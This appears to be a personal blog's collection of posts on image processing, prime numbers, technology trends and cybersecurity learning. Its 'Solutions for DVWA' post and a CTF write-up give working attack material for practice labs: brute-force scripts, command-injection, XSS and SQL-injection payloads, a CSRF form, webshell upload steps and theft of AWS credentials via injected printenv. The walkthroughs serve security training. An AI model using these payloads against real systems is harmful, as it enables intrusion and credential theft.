A digital image is an image composed of picture elements or pixels, each of which has a finite and discrete quantity of numeric value representing its intensity or the grey level.
 Each little square is a pixel
Each little square is a pixel
In the above 10*10 image consider the origin is in the top left corner and the Rows span along Y-Axis and Columns span along X-Axis.
If the color black has an intensity of 1 and white has an intensity of 0, then,
We say that, the pixel with x = 4(Column) and y = 5(Row) has an intensity of 1 and hence f(4, 5) = 1.
Each pixel can be represented by ‘k’ bits, and will have 2^k number of different values of intensities or grey levels.
The value of ‘k’ is called the bit-depth.
 *Credit How many shades of grey are you able to see? Purely Representational*
*Credit How many shades of grey are you able to see? Purely Representational*
So, if there is a image with a bit-depth of 3, then we will have 8 different grey levels and for a bit-depth of 8, we will have 256 different grey levels.
The bit-depth also helps in improving the efficiency of digitization, and gives us the closest possible image of the real thing. We get a more accurate representation of the signal that is converted into the image. Allowing us to record even subtle changes in the signal.
This is comparable to how we increase the number of digits after the decimal point to increase the precision of the measurement. Do not confuse this with Image Resolution which is a independent concept.
Why can’t we just keep raising the bit-depth? Read on…
Channels:
The Number of numbers we will need to define the color value of each pixel determines the number of channels the pixel has, for example, each pixel in an RGB image has 3 channels, namely, Red, Green and Blue channels, each channel has a grey level,

So, the intensity of the pixel in each channel will ultimately decide the color of the pixel, by combining the different levels of Red, Green and Blue. For more intuition on this topic read this.
An RGB image of dimensions 800x400 with a bit depth of 8, will have a total of 800 x 400 x 3 = 960,000 pixels and if each pixel has 8 bits, we will have a image of size **7,680,000 bits = 960,000 bytes = 960 Kilobytes, which is too much for this image. **This is however the raw size of the image, it is uncompressed, we can compress the image using various, compression algorithms like PNG and JPG, to reduce the size.
PNG images are reduced without any loss and are hence of better quality but larger in size, but this is not the case for JPG images, which have some loss and help in reducing the size by a greater deal instead.
What is an RGB Signal?
With what you have read, you should now be able to understand, how a video plays… simple,
 This is the values for One Pixel
This is the values for One Pixel
The above image shows how an RGB signal looks like, continuously changing the values of the 3 channels of the pixels.
Noise as Functions:
As I previously mentioned, images are nothing but 2d functions, and like all functions we can transform them and perform operations of them to get different other results.
A Color Image has 3 such functions stacked as a vector, each pixel will have 3 values. One each for R,G and B.
 f(x,y) is a vector valued function
f(x,y) is a vector valued function
Images are often not pure, they are susceptible to noise.
 I’(x,y) is the impure image
I’(x,y) is the impure image
N(x,y) is the noise function. Noise Functions can be mostly classified into 3 categories,
 Left(Pure) — Right(Salt and Pepper Noise)
Left(Pure) — Right(Salt and Pepper Noise)
**Salt and Pepper Noises **can easily be identified as random black and white spots appearing on the image.
Types of Image Processing:
Image processing can be classified into 3 types based on the output of the process.

Low Level Processes include, Image Acquisition, Image Enhancement, Image Restoration, Color Image Processing, etc.
Mid Level Processes include, Representation and Description, Segmentation, Object Recognition, etc.
High Level Processes include, tasks where the agent has to respond to a scene or a image based on previously understood relations, it is a growing field and is usually associated with Artificial Intelligence. This field is however highly constrained by limited amount of computation power.
Image Processing algorithms often involve a heavy amount of Matrix Multiplications, and require a GPU for running, this is where it gets expensive.
Some algorithms, related to Convolutional Neural Networks may take days or sometimes weeks to complete, and this leaves the programmers with very low margins of error.
Why Image Processing?
Date: 2021-07-12
What in the world is it?
An image may be defined as a two-dimensional function f(x,y), where x and y are spatial blah blah blah…
Let’s not worry ourselves with the definition for now, but before that I believe nothing in this world should be given to someone, if they don’t know the essence of it. You first need to know the actual grace and history of this field, before you get into the nitty witty details. I am following a textbook alright.
Digital image processing by Rafael C. Gonzalez, Richard E. Woods to be precise. I am gonna be using it to make sure, I cover all the topics. The code however and many other examples may or may not be found in there.
The very first use of this system came about in the 1920’s in the Bartlane Cable picture transmission system. It used submarine cables to carry digitised newspaper images across the Atlantic, drastically reducing the time for moving images from New York to London, from weeks to hours. It served as a major nerve during that period. It perceived the image with 5 grey levels, they later increased to 15 grey levels.
 A photo transmitted with the help of Bartlane System
A photo transmitted with the help of Bartlane System
It is all fun and games until the wars begin, right… the wars started, and eventually came to an end, and soon enough we were in the space era, mankind wanted to put as many satellites in space as possible. USSR and USA even had a space race going on. But, what is the use of satellites in the orbit, if the images they give you made absolutely no sense.
We can’t blame them, coz, a few clouds are enough to cause signal distortion, to make salt and pepper out of the images. Images had to be enhanced and for this we used DIP.
CAT & CT scans heavily rely of X-ray Imaging technology. They have been game-changers in the field of medicine and have been used to saves hundreds of lives. The inventor, Godfrey Hounsfield even received a Nobel Prize in Medicine for the invention.
Mankind had to wait till the 1960’s to put DIP in the common man’s hands. Computers were finally powerful but yet, cheap enough to allow common people to buy and use them.
Imaging in general can have various sources, like EM Waves, Ultrasonic, Electronic,etc. We’ll quickly look into all of em’.

An EM wave in the EM Spectrum, short for Electro-magnetic wave, consists of photons, which are bundles of energy.
Gamma Ray Imaging:
Gamma Rays have a super small wavelength, if you remember wavelength is inversely proportional to frequency and directly proportional to energy of the photon in the wave.
I do not suggest that you walk into a room filled with gamma-rays, since it is highly unlikely that you’ll walk out.
They are used in the field of nuclear medicine. The equipment is easily portable and is comparatively cheap, moreover the higher penetrating power of gamma-rays is useful, but the images produced are of poor quality and not sharp.
 Images produced via Gamma Ray Imaging
Images produced via Gamma Ray Imaging
X-Ray Imaging:
X-rays are super cool, and I’m pretty sure you know how they are used for imaging, but, apart from the wide range of medical uses, like Mammography, Diagnostics and other treatments, they are used in airport scanners to check for dangerous items.
 Some random dude’s suitcase
Some random dude’s suitcase
UV Imaging:
Photographs with a UV source has various uses, one important use is in criminal forensics, photographs taken with UV Source can reveal hidden bruises and scars, sometimes even long after visible healing has completed.
Infrared Imaging:
Infrared (IR) imaging technology is used to measure the temperature of an object. All objects emit electromagnetic radiation, primarily in the IR wavelength, which cannot be seen by the naked eye. However, IR radiation can be felt as heat on one’s skin. The hotter the object, the more IR radiation it emits.
These thermal cameras are of great use and can save lives in events of natural disasters, where soldiers search for people who are alive by using these cameras. There are so many uses, like Conditional Monitoring, Night Vision, etc.
Microwave Imaging:
Microwaves are amazing, they do really help in heating up your popcorn, but, let’s discuss images here,
On of the most profound uses of Microwaves in Imaging is for RADAR(Radio Detection and Ranging). Apart from being a concept that I hated during my physics lessons in school, it turned out to be one of the coolest concepts when I did some research for this story.
Microwaves have a large wavelength, hence have a lower energy and don’t scatter easily when they come into contact with dense fog or other distortion media.
They can withstand clouds, but can’t stand a chance against a single water droplet, and don’t get absorbed easily due to their low wavelength.
Microwave Radar is widely used for meteorologic mapping and weather forecasting. They are of great use in mapping terrains, detecting air-planes, ships and speeding motorists.
Radio Waves are used in MRI scans and are applicable in RADAR as well.
Ultrasonic Imaging:
This involves the use of sound, sound is bounced of the surface of an object and the attributes of the returning sound waves are used to create a map of the structure it bounced off of. It is used in searching for Oil and Gas fields under the ocean.
It is comparable to how, blind people train themselves in echolocation to get a mental picture of their surroundings.
Okay, so why do we need Image Processing? I gave a lots of cool looking examples alright, but, why do you need it?
One can use Image Processing for various purposes,
Converting a Image into its Digital form, in order to perform operations like enhancement, restoration, recognition, segmentation, feature extraction on it.
A person can also use DIP to extract a particular attribute from an image which maybe of use to him/her.
Apart from the above example, you might have noticed that I haven’t covered the field of visible light imaging. I haven’t done so, because the applications are too versatile for me to cover in one post, let aside one subheading. So, do give the 1st chapter of the mentioned book a read.
Now that I have discussed fairly well, the origins and the fields of uses of Digital Image Processing. It is finally time to tell you what a digital image is…
An Image maybe defined as a 2D function f(x,y), where x and y are spatial coordinates and the amplitude of f at any pair of coordinates is the intensity or the grey level at that point.
If x, y and f(x,y) are all finite quantities, then it is called a digital image.
Thank you, hoping to see you on my next post…
The Notorious Prime Numbers
Date: 2021-05-11
Haunting Mathematicians since forever!
I have heard of advanced mathematical concepts like Analytical Continuation, Statistical Inference and so on… but do you know that the mysteries of one of the oldest concepts of mathematics… The Prime Numbers, are yet to be discovered!!
To discover more about prime numbers, let us go back to 323 BC, and when its this old, we know its Euclid of Alexandria, the father of geometry himself!!

Mr.Euclid apparently wrote a mathematical treatise of 13 books which have never been out of print since the printing press was invented. The mathematical and logical rigour of this book is so high, that it wasn’t matched till the 19th century.
 Title page of Sir Henry Billingsley first English version of Euclid’s Elements, 1570
Title page of Sir Henry Billingsley first English version of Euclid’s Elements, 1570
Second only to the Bible in the number of copies printed, this book contains proofs to the most profound problems in number theory and geometry.
One such proof suggests that there are infinitely many prime numbers.
How? I’ll try to phrase it,
To prove that there are infinitely many prime numbers, assume that there are only a finite number of prime numbers and that they are on the following set.

If Q is prime, then there exists at least one more prime that is not on the list, and hence there is a contradiction and therefore there are an infinite number of prime numbers.
If Q is non-prime, then there must exist a prime number “p” on the list of prime numbers we initially considered, such that p divides Q.
We now know that,
p divides Q and p also divides M (since M is the product of all prime numbers)
since, Q = M+1,
p must also divide the difference of Q and M, i.e, 1.
Since there is no prime number that can divide 1, p does not exist in the list and is a prime. Which means there is at least one more prime that is not on the list we considered.
Example 1,
Consider that there are only 4 primes,
2,3,5,7
M = 235*7 = 210
Q = 211
But, 211 is a prime number.
Example 2,
Consider that our list of primes is,
2,3,5,7,11,13
M = 235711*13 = 30030
Q = 30031 = 59*509
but, 59 is a prime that is not on the list of all primes that we considered!
Hence the proof!
To put it simply, the appearance of these prime numbers, on the number line, the pin point distribution of these prime numbers is yet to be found, the largest prime number we know for now is 2⁸²⁵⁸⁹⁹³³ -1, but there is no way as of now to predict a prime number. We do have very strong theorems, which are waiting to be proven.
And hence the stage is set for a long and confusing history of prime numbers, little is known about this wonderful series of excellence, which has been far from the reach of humanity’s grand mathematicians. After Euclid, many tried to tame the primes. Not one could succeed, but every single time we struck hard enough, we got close… now, all that we require is a proof, for the Riemann Hypothesis.
What is the Riemann Hypothesis?
So, basically Riemann Hypothesis, is a millennial problem, one of many proposed by the Clay Mathematics Institute on May 24, 2000. Its been almost 21 years and as of now, only 1 problem has been solved. Solving these problems earns you a million dollars, but that is trivial as opposed to a seat in the Hall of Fame of Mathematics.
*Poincare conjecture* *P versus NP* *Hodge conjecture* *Riemann hypothesis* *Yang–Mills existence and mass gap* *Navier–Stokes existence and smoothness* *Birch and Swinnerton-Dyer conjecture*
Only one has been solved as of now, that is the Poincare conjecture.
An Interesting Story about the Poincare conjecture :
After a century’s effort by mathematicians around the world, a random mathematician, who the world didn’t know much posted a paper on arXiv and the paper was floating around the internet for a while until one morning…
After a team of mathematicians found the paper on the internet, they were shell-shocked. He used “Ricci Flow”, which was a program derived from a failed attempt of Richard S Hamilton in cracking the Poincare conjecture.
The man’s name was later revealed to be Grigori Yakovlevich Perelman. He was offered the 1 million dollars by the Clay Institute, which he…DECLINED!! , since he thought Richard S Hamilton was equally creditable for the proof.
He was also offered the Fields Medal, for his contributions to geometry and his revolutionary insights into the analytical and geometric structure of the Ricci flow, which he again declined.
“I’m not interested in money or fame; I don’t want to be on display like an animal in a zoo.”
Several teams of mathematicians came together and checked if he was right about the proof, which he was.
Such is the greatness of one of the greatest problems to be solved. Now you know what you are dealing with.
I won’t add his photo since he told me he doesn’t like fame…
Riemann Hypothesis and how it came about has a long history, enough for me to write a separate story about it.
Data Exfiltration Challenge—CTF Internacional MetaRed 2021-3rd STAGE
Date: 2021-11-06
Last night mr. heker broke into our systems and stole our flag. All our communications are secure and we can’t tell how the data leave our network.
I will send you an abnormal trace of communication. Please analize it and let me know if you figure it out. We need to get back that flag. By the way. You know how mr. heker loves to play with people’s mind. He delivered a video with a creepy toy repeating the words “tic toc, tic toc”. I am not sure if it is a clue or just a silly game of him. Creator : Nandx
Points to note :
- The PCAP File contains 418 ICMP Packets.
- ICMP : Internet Control Message Protocol
- The Hint the attacker left behind is a creepy toy that kept repeating **tic toc,tic toc **
The tic-toc part diverts the focus to the time of request.
Why Request? : Data is being exfiltrated here using the ICMP Protocol, so the replies can be disregarded.
- The attacker can control the time difference between the one packet and another. Therefore,
View → Time display format → Seconds since previous captured packet and also change the format to only seconds.
- To see only the requests, apply the display filter
icmp.type == 8
Your display should look like this,

-
Export the packet dissections. File → Export Packet Dissections → As CSV
-
I have used pandas to extract only the time field data, you may use a tool of your choice or just continue with the pandas method.
On running the python file you should get a string of bits.

Convert it to ASCII to find the flag.
 Believe me, you will get the flag.
Believe me, you will get the flag.
Why disregard the leading 0, (Notice that I have popped the first element from the pktimes list, in the python program. If I did not, I would have had a 0 there)
When I took the output without removing the leading 0, I got,


There was one extra 1 in the end. So, I decided to remove the first 0, since that is the time related to the first packet in the capture and the attacker would not have been able to manipulate it (It will remain 0.00000).
Happy Hunting…
Solutions for DVWA
Date: 2023-03-04
Brute Force
Low and Medium
In the Brute Force Low level we find that the password is being shared in the URL of the website, like,
http://127.0.0.1/dvwa/vulnerabilities/brute/?username=admin&password=123456&Login=Login#
We can brute force the different URLs using this code and the rockyou.txt wordlist.
If the password is wrong, I will get,
Username and/or password incorrect.
on the screen.
import requests
def get_url(username,password):
return f"http://127.0.0.1/dvwa/vulnerabilities/brute/?username={username}&password={password}&Login=Login#"
username = input("Enter Username : ")
COOKIES = {
"PHPSESSID":"pf9kipp16vs54366mr21smurse",
"security":"high"
}
with open("rockyou.txt") as f:
while True:
p = f.readline().strip()
url = get_url(username,p)
r = requests.get(url,cookies=COOKIES)
print("Checking ", p)
if 'incorrect' not in r.text:
print(f"Found password for {username} = {p}")
break
High
Use the following code for High level
import requests
def get_url(username,password,token):
return f"http://127.0.0.1/dvwa/vulnerabilities/brute/?username={username}&password={password}&user_token={token}&Login=submit#"
username = input("Enter Username : ")
COOKIES = {
"PHPSESSID":"km7qua1eth40r643ggc8ll6cbp",
"security":"high"
}
passwords = open("rockyou.txt","r")
while True:
session = requests.Session()
r = session.get("http://127.0.0.1/dvwa/vulnerabilities/brute/index.php",cookies=COOKIES)
body = r.text.split(" ")
token = body[body.index("name='user_token'")+1].split("=")[1][1:-1]
p = passwords.readline().strip()
url = get_url(username,p,token)
r = session.get(url,cookies=COOKIES)
if 'incorrect' in r.text:
print("Trying ",p)
else:
print("Found ",p)
break
Command Injection
Trying to inject a windows command - dir
Low
$target = $_REQUEST[ 'ip' ];
// Determine OS and execute the ping command.
if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
// Windows
$cmd = shell_exec( 'ping ' . $target );
}
It is directly executing the $target without any input validation.
Attack : 127.0.0.1 && dir
Medium
Some level of input validation is performed this time,
// Set blacklist
$substitutions = array(
'&&' => '',
';' => '',
);
// Remove any of the charactars in the array (blacklist).
$target = str_replace( array_keys( $substitutions ), $substitutions, $target );
But, notice that only && is being replaced, we can use &.
Attack : 127.0.0.1 & dir
High
More Filtering has been done,
if( isset( $_POST[ 'Submit' ] ) ) {
// Get input
$target = trim($_REQUEST[ 'ip' ]);
// Set blacklist
$substitutions = array(
'&' => '',
';' => '',
'| ' => '',
'-' => '',
'$' => '',
'(' => '',
')' => '',
'`' => '',
'||' => '',
);
// Remove any of the characters in the array (blacklist).
$target = str_replace( array_keys( $substitutions ), $substitutions, $target );
The substitutions only match | and not |. Hence, there is a loophole in the validation.
The pipe symbol (|) is used for output redirection, and that is why you want see the output for the ping command.
Attack : 127.0.0.1|dir (No Spaces)
CSRF
Low
<form action="http://127.0.0.1/dvwa/vulnerabilities/csrf/?" method="GET">
<h1>Click Me</h1>
<input type="hidden" AUTOCOMPLETE="off" name="password_new" value="hacked">
<input type="hidden" AUTOCOMPLETE="off" name="password_conf" value="hacked">
<input type="submit" value="Change" name="Change">
</form>
The above website is a phishing website created by the attacker, it sends a request to the link, "http://127.0.0.1/dvwa/vulnerabilities/csrf/?" with the new password in the parameters of the link. It is hence used to attack the CSRF vulnerability, since, the website doesn't check for the source of the request.
XSS DOM
Low
Attack :
<script>alert("hacked")</script>
Medium
<select name="default">
<script>
if (document.location.href.indexOf("default=") >= 0) {
var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
document.write("<option value='' disabled='disabled'>----</option>");
}
document.write("<option value='English'>English</option>");
document.write("<option value='French'>French</option>");
document.write("<option value='Spanish'>Spanish</option>");
document.write("<option value='German'>German</option>");
</script>
</select>
We have to break out of the <select> tag, and for that we have to, use the following command.
Our input is lang , from there,
Attack :
></option></script></select><img src=x onerror=alert("hacked")>
High
The programmer has set it in such a way that, any other input we give other than the four languages will be defaulted to English.
// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
# White list the allowable languages
switch ($_GET['default']) {
case "French":
case "English":
case "German":
case "Spanish":
# ok
break;
default:
header ("location: ?default=English");
exit;
}
}
?>
We should avoid sending the payload to the server, for blacklisting, so, we use the #
Attack :
English#<script>alert("hacked")</script>
XSS REFLECTED
Low
Attack : <script>alert("hacked")</script>
Medium
Some level of filtering has been done this time,
$name = str_replace( '<script>', '', $_GET[ 'name' ] );
They have only replaced lowercase <script>, which means, <SCRIPT> will work!
Attack : <SCRIPT>alert("hacked")</SCRIPT>
High
Only script tags are being targetted by this programmer, use an img tag instead.
Attack : <img src=x onerror=alert("hacked")>
XSS STORAGE
Low
Attack :
<script>alert("hacked")</sript>
(in Message)
Medium
Some level of filtering has been done in both input blocks, but the name tag has a weaker level of filtering.
// Sanitize message input
$message = strip_tags( addslashes( $message ) );
$message = htmlspecialchars( $message );
// Sanitize name input
$name = str_replace( '<script>', '', $name );
The strip_tags function is strong and removes all html, php tags. We can target the weaker name input field, but, the problem is the name field takes only 10 characters. To increase this number,
- Ctrl + Shift + i
- Find the input tag of the
namefield in the console, - Note, that it has a maxlength value set to 10, increase it to 50.
- Attack the
namefield.
Attack :
\<SCRIPT>alert(document.cookie())\</SCRIPT>
High
It is the same case as medium, but this time, there is too much focus on the script tag, so try img tags.
Attack : <img src=x onerror=alert("hacked")> in Name
File Upload
Low
- Create the following php file
- Upload it
<?php
echo getenv("PATH")
?>
- Access the file.
Medium
- Create the php file
- Save it as .png file
- upload it
- go to command injection
127.0.0.1 & copy ..\..\hackable\uploads\uploadmed.png ..\..\hackable\uploads\uploadmed.php- now go back to uploads and access the file.
High
- The php file looks like
GIF98
<?php
echo getenv('PATH')
?>
- Save it as .jpeg file
- Upload it
- go to command injection
127.0.0.1|copy ..\..\hackable\uploads\uploadhigh.jpeg ..\..\hackable\uploads\uploadhigh.php- now go back to uploads and access the file.
SQL Injection
Low
Attack : %' or 1=1 union select null,concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users# (or) %' or 1=1 union select null,version()#
Medium
Attack : 1 or 1=1 union select null,concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users (or) 1 or 1=1 union select null,version()
High
- Click on
Click here to change IDAttack : %' or 1=1 union select null,concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users# (or) %' or 1=1 union select null,version()#
CSP Bypass
Low
- go to hastebin
- make a file with contents
alert(document.cookie);
- Save and go to
just text - Paste the link in the input field and click go.
AWS Cloud Attack Defense Command Injection
- Upload the file
- Switch on proxy
- Catch in burpsuite
- Right click and send to repeater
- add printenv to the end of the Filename
- Collect the following from response
- SESSION TOKEN
- SECRET_ACCESS_KEY
- ACCESS_KEY_ID
- Export them in the terminal in the same order
- Run the following commands
aws s3 ls s3://temporary-public-image-store
aws s3 cp s3://temporary-public-image-store/flag.txt .
cat flag.txt
Open SSL
- Install from https://slproweb.com/products/Win32OpenSSL.html 5MB File
ENCRYPTION:
openssl enc -salt -aes-256-cbc -in file.txt -out enc.txt
openssl enc -d -aes-256-cbc -in enc.txt -out dec.txt
HASH:
openssl dgst -sha256 file.txt
openssl dgst -sha256 file.txt > hash.txt
Cyber Security Resources
Date: 2023-03-04
I am glad to find so many people in my college being interested in Cyber Security. I would like to assure you that you have come to the right place to start your journey in this field. Let's cut the introduction short and get to the point, I hope we'll get to know each other better as time progresses. This WhatsApp group is to help you learn and get better in your domain(s) of interest in Cyber Security.
So, what are these domains I am talking about?
Malware Analysis
Malware analysis is the process of understanding the behavior and purpose of a suspicious file or URL. The output of the analysis aids in the detection and mitigation of the potential threat.
Resources :
Practical Malware Analysis Book
https://www.youtube.com/watch?v=uHhKkLwT4Mk&list=PLBf0hzazHTGMSlOI2HZGc08ePwut6A2Io
https://www.youtube.com/c/JohnHammond010
https://www.youtube.com/c/MalwareAnalysisForHedgehogs
https://www.first.org/global/sigs/malware/resources/
https://www.sans.org/blog/how-you-can-start-learning-malware-analysis/
Digital Forensics and Incident Response
Digital forensics and incident response (DFIR) is a specialized field focused on identifying, remediating, and investigating cyber security incidents. Digital forensics includes collecting, preserving, and analyzing forensic evidence to paint a full, detailed picture of events.
Resources :
https://dfirdiva.com/getting-into-dfir/
https://www.youtube.com/watch?v=-IUJnDs6rbE
https://www.youtube.com/c/SANSDigitalForensics/playlists
https://www.youtube.com/c/DFIRScience
https://itmasters.edu.au/free-short-course-information-security-incident-handling/
https://www.youtube.com/channel/UCjFuM88y9_awcgxsek85YyQ
Practice :
https://github.com/stuxnet999/MemLabs
https://www.netresec.com/?page=PcapFiles
https://www.malware-traffic-analysis.net/
Reverse Engineering
Reverse engineering covers a broad range of areas, including decompiling and disassembling of executable files and libraries, and analysis of system data. In the field of computer security, reverse engineering is used to study malware activity and create tools to neutralize it.
Resources :
The Reversing Secrets of a Reverse Engineer book is pretty good, especially the 3 indexes in the back of the book.
https://github.com/OpenToAllCTF/REsources
https://www.youtube.com/playlist?list=PL_tws4AXg7auglkFo6ZRoWGXnWL0FHAEi
https://www.youtube.com/watch?v=a2EkORFcSZo
https://www.youtube.com/watch?v=fnYp2DN_XZc
Practice :
https://crackmes.one/
Binary Exploitation
Binary exploitation is the process of subverting a compiled application such that it violates some trust boundary in a way that is advantageous to you, the attacker. In this module we are going to focus on memory corruption.
Resources :
https://www.hoppersroppers.org/roadmap/training/pwning.html
https://www.youtube.com/channel/UCgTNupxATBfWmfehv21ym-g
https://ir0nstone.gitbook.io/notes/types/stack/introduction
https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w
https://corruptedprotocol.medium.com/
Practice :
https://ropemporium.com/
https://dojo.pwn.college/
Security Operations Center
A security operations center — commonly referred to as a SOC — is a team that continuously monitors and analyzes the security procedures of an organization. It also defends against security breaches and actively isolates and mitigates security risks
Resources :
https://www.youtube.com/channel/UCfcDMqKt72afteeXBk99cmg/playlists
https://www.youtube.com/c/AnandGuruSOCExperts/playlists
Practice :
https://letsdefend.io/
Web Application Pentesting
Web application penetration testing involves a methodological series of steps aimed at gathering information about the target system, finding vulnerabilities or faults in them, researching for exploits that will succeed against those faults or vulnerabilities and compromise the web application.
Resources :
Book : The Web Application Hacker's Handbook
https://www.youtube.com/watch?v=2_lswM1S264
https://owasp-academy.teachable.com/
Practice :
https://portswigger.net/web-security (Portswigger Labs) Damn Vulnerable Web Application
OWASP Juice Shop
OWASP Broken Web Apps
Cryptography
Cryptography is the study of secure communications techniques that allow only the sender and intended recipient of a message to view its contents. The term is derived from the Greek word kryptos, which means hidden.
Resources :
https://www.youtube.com/playlist?list=PL1H1sBF1VAKU05UWhDDwl38CV4CIk7RLJ
https://www.youtube.com/playlist?list=PL60F3F917709C7DD5
Important Algorithms :
- AES
- RSA
- DES
- Diffie Hellman
- ECC
Practice :
https://cryptohack.org/
Other Domains in Cyber Security Include :
- Network Security
- Hardware Security
- Threat Intelligence
- Social Engineering
- OSINT
BASICS
Python Basics : https://www.youtube.com/watch?v=8DvywoWv6fI
Linux - https://www.youtube.com/watch?v=VbEx7B_PTOE&list=PLIhvC56v63IJIujb5cyE13oLuyORZpdkL
Bash Scripting- https://www.youtube.com/watch?v=LTuuMtQR1uQ&list=PLBf0hzazHTGMJzHon4YXGscxUvsFpxrZT
https://overthewire.org/wargames/bandit/
Web : https://www.youtube.com/c/HackerSploit/search?query=webapp%20pentesting
Intro to Image Manipulation
Date: 2021-06-01
What are Images? What form do they exist in?

Note: This series assumes that you have a intermediate level understanding of Python, and a basic level understanding Linear Algebra (esp. Matrices and Matrix Operations) and Calculus.
Images are everywhere, starting from X-Rays used to save people’s physical lives to memes that are used to save their mental lives.
Being blind in this beautiful world is a very depressing thing indeed, so why let the computers miss out on the fun ?
One might argue that, that’s why cameras exist, but the thing about it is, cameras only help us capture the image data and put it into a frame or a computer. You can view it, but it means nothing to the computer. To a computer, all images are simply matrices.
If you keep zoom in to an image, you might start seeing squares all over your image. These squares are pixels. Each Pixel has 3 channels.
In a R.G.B image, the 3 channels are [Red, Blue, Green]. The colour of the pixel is a mixture of the red, blue and green channels.
If the Red Channel has a value of 1 and the other 2 channels have a value of 0. Then the pixel will be Red in colour. Most computers have pixel colour values ranging from 0 to 255(uint8). Some might have them range from 0 to 65535(uint16).
White — [255,255,255] Black — [0,0,0] Red — [255,0,0] Green — [0,255,0] Blue — [0,0,255]
 This is the image we’ll work on! — PC Suraj Nukala
This is the image we’ll work on! — PC Suraj Nukala
We start by importing the required packages…
import matplotlib.pyplot as plt
import numpy as np
We read the image using the ‘pyplot’ inbuilt function,
img = plt.imread(‘asuma.jpg’)
Now, the img variable has the data of the image, ‘asuma.jpg’
 This is a numpy array, of the first 5 rows and columns in the image.
This is a numpy array, of the first 5 rows and columns in the image.
Numpy is a Python Library that helps one work with Linear Algebra, Matrices and Fourier Transforms. It was created in 2005 as an open-source project by Travis Oliphant. It remains one of the standard libraries in the field of Data Science.
 The Image size is 1080 x 1920, but what is the 3?, it is the number of channels.
The Image size is 1080 x 1920, but what is the 3?, it is the number of channels.
Let us look at the pixel on the 1000th row and 500th column, and check if it is grey in colour.
![We were right! [rows, columns, channels]](https://cdn-images-1.medium.com/max/2000/1*rSyjY4ZO1PV-A1Ccdy0g_g.png) We were right! [rows, columns, channels]
We were right! [rows, columns, channels]
Let’s now cover the dude’s face with a big blue square. The face region spans from 0th to 500th rows and 1150th to 1650th columns.

Lets, create our own image, and give colours to it,

Let’s extract each channel of the image we created,

Look at how the Red channel has only the Red part brightened and similarly for the other 2 channels, manipulating these 3 channels is crucial for efficient image processing.
There are many computer vision libraries, some of the best of skimage and opencv-python. SciPy is also a good alternative.
SK-Image does not allow video-processing in realtime, but opencv does. OpenCV is also faster than skimage, but has lesser pre-implemented algorithms. Pillow is the standard library for image processing in python.
Thank you, do leave your feedback in the comments.
Evolution of the Society — What Next?
Date: 2021-08-20
Trying to figure out what is going to happen in the future
Motivation
The Society is evolving at such a great pace, that lots of people are losing jobs and even more people are roaming a world with skills that need slight tweaks.

I wouldn’t call any skill that has been achieved through long hours of training and practice as waste.
Many nights I have spent trying to get into scope the entire field of technology and where everything is going.

I see a lot of people haphazardly try to learn things like Python, Data Science, AI and all these. Yes, AI is going to be a big thing in the future, but, I can’t imagine someone, who can make AI applications, give it a cool interface, deploy it on different platforms, connect the platform to the world all alone in one lifetime.
Team work is the only way out.

One cannot learn everything from building Autonomous Vehicles to **Genome Sequencing, **from Unmanned Aerial Vehicles to Quantum Computing.
Respected Engineers of the world, please do not be narrow minded.

Back when Electricity was the big thing, people didn’t know AI was coming. Now AI is the big thing…we do not know what is coming.
Lets talk data,
A Use case has to be designed — Data has to be collected — Stored Efficiently for Retrieval — Analyzed Efficiently — The Solutions have to be used appropriately.
The amounts of data will get massive, so massive that we might have to keep looking for better and better ways to store and process it.
So, what do we have here,
Scaling Memory :

Memory is the bottleneck of almost all systems, it requires energy to store and retrieve it.
The human brain is said to have 2.5 Million GB of RAM. We aren’t even close to replicating it. There are lots of research scopes in the data storage field.
Processing :
Quantum Computing :

Quantum Computing is the next big thing you might say, but I’ll give you one better, as Quantum Computing open new and bigger doors for humanity, we will be needing more and more people to enter those doors and explore.
Protein Folding, Drug Discovery and complex Bio-Informatics tasks might find answers, but, who is going to explore?
Here are some more applications :
-
Cybersecurity.
-
Drug Development.
-
Financial Modeling.
-
Better Batteries.
-
Cleaner Fertilization.
-
Traffic Optimization.
-
Weather Forecasting and Climate Change.
-
Artificial Intelligence.
But Quantum Computing will take time, at least 50 years, and it is hard for me to think that far ahead, and **don’t be fooled by the myth — Quantum Computers will replace Classical Computers. **Thing is Classical Computers have some unique properties that Quantum Computers might never be able to achieve.
The applications for Quantum Computing is vast alright I have barely scratched the surface, but, vast is the scale we need to start thinking in to look at the future of opportunities.
High Performance Computing :

Keep developing Classical Computers if you want to leverage the power of quantum computing to the maximum.
As of now, and for quite a while, they will be the ones that will be the ones that will be processing our data as quantum computers are just not good enough.
Just because one has all the computing power in the world doesn’t mean the same person has all the time. We need to keep making our algorithms more and more optimized, and optimizing algorithms is well, not our best skill.
You can just take a deep dive into Data Structures and Algorithms and start drowning in the sheer amount of questions that remain difficult or presumably impossible in algorithms.
What will happen if an AI is able to predict the growth or fall of a particular stock? If the news is made public, people will buy the stock, increasing its value, and if it predicts a fall, people will sell all or most of their stocks and make the value drop, now who is controlling the market? The AI or the People?
Data is getting massive.. how? Where is all this data coming from?
Internet Of Things :
All this data comes from devices that are connected to the cloud. These devices will mostly include, “Things”. You know where I am getting at, we have all watched I-Robot and Terminator.
IoT and Smart Things also have a huge amount of importance in the future.

Development of Smart devices require people who have a cross-over experience in different field. (Its Internet of Things). We need people to design such devices, sparking a need for good designers.
Developing such devices isn’t an easy task either, even small mistakes can be super hard to fix, and mistakes are easy to make given the amount of complexity.
After deploying them we need to allow human communication with these devices which requires people with good level of knowledge in Human Computer Interaction.

The Field of HCI is rapidly advancing with AR, VR and MR becoming, common talk.

Apart from this, we also have a field called** Brain Computer Interface** which is slowly pacing forward, but has a promising future.
This field has varied applications from Gaming to Healthcare.
There are many more interesting types of HCI tech, that I would like to discuss, but I will let you find that out for yourself. Now, back to IoT.
IoT devices require power to run, talking of power, we need to figure out ways to emit cleaner, and scalable sources of power.

Lithium unlike Silicon is not super abundant. Batteries are made from that stuff, research says, proper e-waste management is necessary to maintain sustenance.
Human race, cannot imagine scalable and autonomous Electric Vehicles, without proper urban planning and better batteries.

Luckily, it isn’t impossible, we can recycle 97% of the lithium, but will we?
